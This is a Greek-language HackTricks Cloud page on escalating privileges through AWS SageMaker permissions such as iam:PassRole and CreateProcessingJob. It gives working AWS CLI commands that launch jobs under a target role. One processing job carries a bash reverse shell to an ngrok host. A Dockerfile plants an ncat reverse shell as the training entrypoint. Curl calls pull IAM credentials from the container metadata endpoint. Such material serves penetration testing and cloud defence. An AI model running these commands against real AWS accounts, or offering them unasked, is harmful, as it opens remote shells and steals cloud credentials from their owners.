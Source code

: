 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Αρχίστε να δημιουργείτε ένα notebook με τον IAM Ρόλο που έχει πρόσβαση σε αυτό:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Η απάντηση θα πρέπει να περιέχει ένα πεδίο `NotebookInstanceArn`, το οποίο θα περιέχει το ARN της νέας δημιουργημένης παρουσίας σημειωματάριου. Μπορούμε στη συνέχεια να χρησιμοποιήσουμε το API `create-presigned-notebook-instance-url` για να δημιουργήσουμε μια διεύθυνση URL που μπορούμε να χρησιμοποιήσουμε για να αποκτήσουμε πρόσβαση στην παρουσία σημειωματάριου μόλις είναι έτοιμη:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Πλοηγηθείτε στη διεύθυνση URL με τον περιηγητή και κάντε κλικ στο \`Open JupyterLab\` στην επάνω δεξιά γωνία, στη συνέχεια, μετακινηθείτε προς τα κάτω στην καρτέλα “Launcher” και κάτω από την ενότητα “Other”, κάντε κλικ στο κουμπί “Terminal”.

Τώρα είναι δυνατή η πρόσβαση στα διαπιστευτήρια μεταδεδομένων του IAM Role.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Εάν υπάρχουν Jupyter **notebooks που εκτελούνται ήδη** σε αυτό και μπορείτε να τα καταγράψετε με το `sagemaker:ListNotebookInstances` (ή να τα ανακαλύψετε με οποιονδήποτε άλλο τρόπο). Μπορείτε να **δημιουργήσετε μια διεύθυνση URL γι' αυτά, να τα αποκτήσετε πρόσβαση και να κλέψετε τα διαπιστευτήρια όπως υποδεικνύεται στην προηγούμενη τεχνική**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που είναι συνημμένος.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να κάνει **τον sagemaker να εκτελέσει ένα processingjob** με έναν ρόλο sagemaker συνημμένο σε αυτόν. Ο επιτιθέμενος μπορεί να υποδείξει τον ορισμό του κοντέινερ που θα εκτελείται σε μια **AWS managed ECS account instance**, και **να κλέψει τα διαπιστευτήρια του IAM ρόλου που είναι συνημμένος**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα είναι σε θέση να δημιουργήσει μια εργασία εκπαίδευσης, **τρέχοντας ένα αυθαίρετο κοντέινερ** πάνω σε αυτήν με έναν **συνδεδεμένο ρόλο**. Επομένως, ο επιτιθέμενος θα είναι σε θέση να κλέψει τα διαπιστευτήρια του ρόλου.

{% hint style="warning" %}
Αυτό το σενάριο είναι πιο δύσκολο να εκμεταλλευτεί από το προηγούμενο επειδή χρειάζεται να δημιουργήσετε μια εικόνα Docker που θα στείλει το rev shell ή τα creds απευθείας στον επιτιθέμενο (δεν μπορείτε να υποδείξετε μια αρχική εντολή στη διαμόρφωση της εργασίας εκπαίδευσης).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας sagemaker που καθορίζεται.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Ένας επιτιθέμενος με αυτές τις άδειες θα (πιθανώς) μπορεί να δημιουργήσει μια **εργασία εκπαίδευσης υπερπαραμέτρων**, **τρέχοντας ένα αυθαίρετο κοντέινερ** πάνω σε αυτήν με έναν **συνδεδεμένο ρόλο**.\
_Δεν το έχω εκμεταλλευτεί λόγω έλλειψης χρόνου, αλλά φαίνεται παρόμοιο με τις προηγούμενες εκμεταλλεύσεις, μη διστάσετε να στείλετε μια PR με τις λεπτομέρειες εκμετάλλευσης._

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

